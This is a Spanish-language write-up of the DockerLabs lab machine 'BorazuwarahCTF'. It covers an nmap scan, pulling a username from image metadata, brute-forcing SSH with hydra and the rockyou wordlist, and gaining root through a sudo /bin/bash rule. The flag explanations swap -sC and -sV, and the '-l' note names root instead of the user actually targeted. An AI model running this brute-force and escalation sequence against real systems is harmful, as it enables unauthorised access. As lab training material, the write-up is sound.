 ## WRITEUP DE LA MÁQUINA BORAZUWARAHCTF DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

```shell
└─$ nmap -sC -sV -p- -n --min-rate 5000 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br>
"-p-" Escanea todos los 65535 puertos TCP.
<br>
"-n" Desactiva la resolución de nombres DNS.
<br>
"--min-rate 5000" Ajusta la tasa mínima de envío de paquetes a 5000 paquetes por segundo, acelerando el escaneo.
<br>
"172.17.0.2" Es la dirección IP de la máquina víctima.
<br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-29 12:33 EDT
Nmap scan report for 172.17.0.2
Host is up (0.00011s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.59 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.47 seconds
```
Vemos que los puertos 22 y 80 estan abiertos (servicios ssh y http respectivamente). Vamos a ingresar la ip de la máquina víctima en cualquier navegador para observar que tenemos.
<br><br>
![Foto de la pagina web](https://github.com/1A2N6K7/DockerLabs-WriteUps/assets/94070438/fa394feb-c077-46ca-bf1e-7e7b3e52798a)
der.JPG)
Vemos que solo hay una imagen jpeg, se me ocurre descargarla y mediante alguna herramienta de OSINT podamos sacar datos importantes. Esto lo haremos con la herramienta exiftool:
```
└─$ exiftool kinder.jpeg
ExifTool Version Number         : 12.76
File Name                       : kinder.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:06:16 11:40:00-04:00
File Access Date/Time           : 2024:06:26 14:25:09-04:00
File Inode Change Date/Time     : 2024:06:16 11:40:00-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207

```
De los datos obtenidos, nos llama la atencion el siguiente:

```
Description                     : ---------- User: borazuwarah ----------
``` 
Ya sabemos el nombre de usuario, por ello el próximo paso sera intentar hacer un ataque de fuerza bruta para encontrar la contraseña del usuario "borazuwarah", esto lo haremos con la herramienta "hydra":
```
└─$ hydra -l borazuwarah -P /home/kali/Desktop/rockyou.txt ssh://172.17.0.2 -t 5
```
"-l root" Indica qué nombre de usuario va a usar en el ataque, en este caso buscamos a root.
<br>
"-P /home/kali/Desktop/rockyou.txt" Especifica la wordlist de contraseñas que va a usar para probar el ataque de fuerza bruta, cada uno pone la ruta donde se encuentre su fichero wordlist.
<br>
"ssh://172.17.0.2/" Especifica el protocolo y la dirección del objetivo del ataque. En este caso, se está atacando el servicio SSH (Secure Shell) en la dirección IP 172.17.0.2
<br>
"-t 5" Especifica el número de tareas (threads) paralelas que Hydra debe usar durante el ataque. En este caso, -t 5 indica que Hydra debe utilizar 5 hilos de ejecución simultáneos para probar las combinaciones de nombre de usuario y contraseña.

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-29 13:37:58
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-29 13:38:02
```
Tenemos que para el usuario "Borazuwarah" la contraseña es "123456", para entrar lo haremos mediante ssh:

```
└─$ ssh borazuwarah@172.17.0.2 
borazuwarah@172.17.0.2's password: 
Linux f976bd56f8e8 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun 26 18:26:17 2024 from 172.17.0.1
borazuwarah@f976bd56f8e8:~$ 
```
Ya somos el usuario "Burazuwarah" ahora toca el paso de siempre, ejecutar "sudo -l" y escalar privilegios:

```
borazuwarah@f976bd56f8e8:~$ sudo -l
Matching Defaults entries for borazuwarah on f976bd56f8e8:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on f976bd56f8e8:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```
Mediante la pagina de GTFOBINS -> https://gtfobins.github.io/gtfobins/bash/#sudo
<br>
Con el siguiente comando escalaremos privilegios y conseguiremos ser root:

```
borazuwarah@f976bd56f8e8:~$ sudo bash
root@f976bd56f8e8:/home/borazuwarah# whoami
root
```
Estamos dentro. Muchas gracias y nos vemos en la próxima.
